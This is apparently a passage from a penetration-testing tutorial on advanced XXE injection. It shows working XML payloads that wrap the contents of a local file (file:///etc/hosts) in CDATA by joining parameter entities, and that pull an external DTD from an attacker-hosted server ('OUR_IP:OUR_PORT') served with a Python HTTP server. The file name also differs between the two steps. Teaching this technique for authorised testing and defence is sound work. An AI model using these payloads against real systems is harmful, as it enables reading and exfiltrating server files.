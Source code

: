In the event that basic XXE won't work or when we are dealing with other web development frameworks, we can utilize the following method to extract any kind of data (including binary data) for any web application backend.

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

To start, we must first define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///etc/hosts">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
After that, if we reference the `&joined;` entity, it should contain our escaped data. However, there will be times that this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.

To bypass this, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined. First create a DTD file named `external.dtd` using the following value:
```dtd
<!ENTITY joined "%begin;%file;%end;">
```
Then start a local server to host the file using Python.
```bash
python3 -m http.server 8080
```

Now we can reference our external entity and print the `&joined` entity we defined above.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///etc/hosts">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:OUR_PORT/xxe.dtd">
  %xxe;
]>
...
<email>&joined;</email>
```